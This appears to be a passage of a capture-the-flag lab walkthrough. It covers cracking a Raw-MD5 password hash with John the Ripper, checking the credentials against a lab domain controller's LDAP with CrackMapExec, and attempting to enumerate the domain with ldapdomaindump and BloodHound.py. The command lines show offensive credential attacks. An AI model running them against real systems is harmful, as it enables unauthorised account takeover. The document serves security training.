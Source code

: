 ```
+----+------------+--------------+-----------+----------------------------------+
| id | first_name | short_handle | last_name | password                         |
+----+------------+--------------+-----------+----------------------------------+
|  1 | Robert     | rsmith       | Smith     | [...snip...]                     |
|  2 | Eric       | ewalters     | Walters   | [...snip...]                     |
|  3 | Christine  | cpowers      | Powers    | [...snip...]                     |
+----+------------+--------------+-----------+----------------------------------+
```

Originally I had thought that these hashes were LM hashes, however upon testing them with `crackmapexec` and `hashcat auto-detect mode`, it seems that they may very well be another hashing algorithm. After a bit of testing with `jtr` it seems that this specific hashing algorithm is `Raw-MD5`
`john rsmith.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5`

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
[...snip...]       (?)     
1g 0:00:00:00 DONE (2024-05-02 01:41) 1.666g/s 18487Kp/s 18487Kc/s 18487KC/s IHav.One*Q..IHATESPIDERS
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

This gives us the plaintext of `rsmith`'s password, which we can use to do dump a lot of other things around this specific domain controller.

Testing the creds to these with CrackMapExec, we can see that these specific creds are valid to LDAP.
`crackmapexec ldap 10.10.157.166 -u 'rsmith' -p '[...snip...]'`

```
SMB         10.10.157.166   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False)
LDAP        10.10.157.166   389    LABDC            [+] lab.trusted.vl\rsmith:[...snip...]
```

Now that we have verified that `rsmith`'s creds are eligible to authenticate to LDAP, we can now use these same credentials to dump LDAP and identify all other domain objects.

# Dumping LDAP

Normally you'd be able to use `ldapdomaindump`, however I'm more used to using the Bloodhound-Python ingestor. I've also found that `ldapdomaindump` still does not work after remediating an error that you'll see pretty soon with the Python ingestor. Nonetheless I'd still like to include what the `ldapdomaindump` command would look like in this context.
 `ldapdomaindump -u LABDC\\'rsmith' -p '[...snip...]' ldap://10.10.157.166:389`
`BloodHound.py/bloodhound.py -d 'trusted.vl' -u 'rsmith' -p [...snip...] -c all -ns 10.10.157.166 --zip`
https://github.com/dirkjanm/BloodHound.py

It seems I've encountered an issue that I've never come into contact before. Upon running this command, you'll find that a nameserver error occurs based on an invalid query.
`dns.resolver.NoNameservers: All nameservers failed to answer the query _ldap._tcp.pdc._msdcs.trusted.vl. IN SRV: Server Do53:10.10.157.166@53 answered SERVFAIL`
